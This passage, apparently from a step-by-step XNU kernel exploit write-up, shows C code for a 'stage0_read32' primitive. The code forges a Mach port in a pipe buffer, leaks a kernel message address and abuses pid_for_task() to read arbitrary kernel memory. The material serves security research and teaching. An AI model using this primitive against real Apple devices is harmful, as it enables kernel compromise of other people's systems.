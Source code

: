 {% highlight c %}
    *
     * stage0_read32
     *
     * Description:
     * 	Read a 32-bit value from memory using our fake port.
     *
     * 	Note that this is the very first read primitive we get, before we know the address of the
     * 	pipe buffers. Each 32-bit read leaks an ipc_kmsg. We'll want to use this primitive to get
     * 	the address of our pipe buffers as quickly as possible.
     *
     * 	This routine performs 2 full pipe transfers, starting with a read.
     */
    static uint32_t
    stage0_read32(uint64_t address, uint64_t *kmsg) {
    	// Do a read to make the pipe available for a write.
    	read_pipe();
    	// Initialize the port as a regular Mach port that's empty and has room for 1 message.
    	uint8_t *fake_port_data = (uint8_t *) pipe_buffer + fake_port_offset;
    	FIELD(fake_port_data, ipc_port, ip_bits,      uint32_t) = io_makebits(1, IOT_PORT, IKOT_NONE);
    	FIELD(fake_port_data, ipc_port, waitq_flags,  uint32_t) = mach_port_waitq_flags();
    	FIELD(fake_port_data, ipc_port, imq_messages, uint64_t) = 0;
    	FIELD(fake_port_data, ipc_port, imq_msgcount, uint16_t) = 0;
    	FIELD(fake_port_data, ipc_port, imq_qlimit,   uint16_t) = 1;
    	write_pipe();
    	// We'll pretend that the 32-bit value we want to read is the p_pid field of a proc struct.
    	// Then, we'll get a pointer to that fake proc at a known address in kernel memory by
    	// sending the pointer to the fake proc in a Mach message to the fake port.
    	uint64_t fake_proc_address = address - OFFSET(proc, p_pid);
    	uint64_t offset_from_kmsg_to_fake_task;
    	stage0_send_fake_task_message(fake_proc_address, &offset_from_kmsg_to_fake_task);
    	// Read back the port contents to get the address of the ipc_kmsg containing our fake proc
    	// pointer.
    	read_pipe();
    	uint64_t kmsg_address = FIELD(fake_port_data, ipc_port, imq_messages, uint64_t);
    	*kmsg = kmsg_address;
    	// Now rewrite the port as a fake task port pointing to our fake task.
    	uint64_t fake_task_address = kmsg_address + offset_from_kmsg_to_fake_task;
    	FIELD(fake_port_data, ipc_port, ip_bits,    uint32_t) = io_makebits(1, IOT_PORT, IKOT_TASK);
    	FIELD(fake_port_data, ipc_port, ip_kobject, uint64_t) = fake_task_address;
    	write_pipe();
    	// Now use pid_for_task() to read our value.
    	int pid = -1;
    	kern_return_t kr = pid_for_task(fake_port, &pid);
    	if (kr != KERN_SUCCESS) {
    		ERROR("%s returned %d: %s", "pid_for_task", kr, mach_error_string(kr));
    		ERROR("could not read kernel memory in stage %d using %s", 0, "pid_for_task");
    		fail();
    	}
    	return (uint32_t) pid;
    }
{% endhighlight %}
#### Step 20: Compute the address of the fake port
